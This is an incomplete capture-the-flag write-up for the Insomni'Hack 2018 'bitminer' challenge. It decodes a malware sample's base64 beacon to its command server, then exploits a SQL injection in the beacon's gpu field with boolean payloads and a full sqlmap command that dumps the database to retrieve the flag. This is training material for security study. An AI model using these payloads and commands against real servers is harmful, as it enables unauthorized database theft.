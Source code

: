 ```yaml
---
title: Insomni'Hack 2018 - Vba02-bitminer
published: false
---
```


# {{page.title}}
Solves: 21 / Points: 142
## Challenge description
Oh no I opened an email attachment AGAIN!! Help me to take my revenge. Here is the file I downloaded:

FIXME: Add the file
## Challenge resolution
FIXME: first step

The following base64 is sent over HTTP to the C2 by the malware: 

```eyJjaWQiOiJERVNLVE9QLUQwMjE0VjgiLCJjcHUiOiJJbnRlbChSKSBDb3JlKFRNKSBpNS00MzEwVSBDUFUgQCAyLjAwR0h6IiwiZ3B1IjoiQ2FydGUgdmlkw6lvIGRlIGJhc2UgTWljcm9zb2Z0In0=```
The decoded base64 is a json object:
```
{
    "cid":"DESKTOP-D0214V8",
    "cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz",
    "gpu":"Carte vidéo de base Microsoft"
}
```
After playing with the json content, we identify that the server send an error when a single quote is present in the gpu field. The vulnerability seems to be a SQL injection which can be easily checked by sending the following gpu value:
* ' or 1=1 \-\- always true, return go
* ' or 1=0 \-\- always false, return pwaaa

As we are lazy hackers, we use sqlmap to extract the database content. To do so, we use the -r option by defining a file containing all information the request (* is used to mark the injection point):
```
$ cat raw_request
POST /?a=benchmark HTTP/1.1
Host: bitminer.insomni.hack
User-Agent: Bitcoin Mining $couter 0.1 Beta 1337
Expect: 100-continue
Content-Length: 148
Content-Type: application/x-www-form-urlencoded

*
```

And run the following sqlmap command:

``$ sqlmap -r raw_request --tamper base64encode --prefix $'{"cid":"DESKTOP-D0214V8","cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz","gpu":"\' or 1=1 ' --suffix ' -- a"}' --skip-urlencode --level 5 --string go --technique B --dump``

Finaly, we retrieve the flag from the flag tables: INS{M1ninG_i5_t0o_H4rD_Lets_D0_Norm4l_Cyb3rCr1me}


